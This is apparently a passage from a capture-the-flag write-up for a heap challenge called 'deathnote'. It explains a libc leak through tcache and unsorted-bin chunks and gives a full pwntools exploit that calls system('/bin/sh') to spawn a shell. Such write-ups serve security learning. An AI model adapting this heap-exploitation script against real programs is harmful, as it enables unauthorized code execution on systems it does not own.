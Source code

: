 So we need to leak a libc pointer to resolve the address of `system()` what we can do is create 10 chunks ( maximum chunks which can be created) of size 0x80 we free 9 of those. first 7 will go in the tcache[0x80] and last 2 will go to the unsorted bin so they will have pointers to libc 

we can now view chunk 7 with show() and voila ! we have a libc leak 

Now we can calculate address of system() and use it in out `_()` function 

### Exploit 

```python
from pwn import *

# context.log_level='debug'

libc = ELF("./glibc/libc.so.6")

def create(size,page,content):
    p.sendlineafter(b"\xf0\x9f\x92\x80",size)# "\xf0\x9f\x92\x80" == 💀
    p.sendlineafter(b"\xf0\x9f\x92\x80",page)
    p.sendlineafter(b"\xf0\x9f\x92\x80",content)
    
def delete(idx):
    p.sendlineafter(b"\xf0\x9f\x92\x80",b"2")
    p.sendlineafter(b"?\n",str(idx))

p=process("./deathnote")
# p=remote('remote_ip',remote_port)
for i in range(0x7):
    create(b"0x80",str(f"{i}"),str(0x41+i)*0x30)  #  chunks for tcache 

create(b"0x80",str(f"7"),str(0x41+1)*0x30) # 2 chunks for unsortedbin 
create(b"0x80",str(f"8"),str(0x41+2)*0x30)
create(b"0x80",str(f"9"),str(0x41+3)*0x30) # chunk to avoid heap consolidation  
for i in range(0x7):
    delete(str(i)) # fill tcache
 
delete(str("7"))
delete(str("8")) # send chunks to unsortedbin

p.sendlineafter(b"\xf0\x9f\x92\x80",b'3')
p.sendlineafter(b"\xf0\x9f\x92\x80",b'7') # show() 7th chunk
p.recvuntil(b": ")

libc_base = u64(p.recvuntil(b"\n")[:-1].ljust(8,b'\0')) - 0x21ace0 # calcualate libc base 
system=libc_base+libc.symbols['system']
binsh=libc_base +0x1d8678

print('system: '+hex(system)+'\n')
print('binsh: '+hex(binsh)+'\n')

create(b"100",b"0",hex(system)) # create the 0th and 1st chunk for _(); 
create(b"100",b"1",b"/bin/sh") 

p.sendlineafter(b"\xf0\x9f\x92\x80",b'42') # call system("/bin/sh")


p.interactive()
```
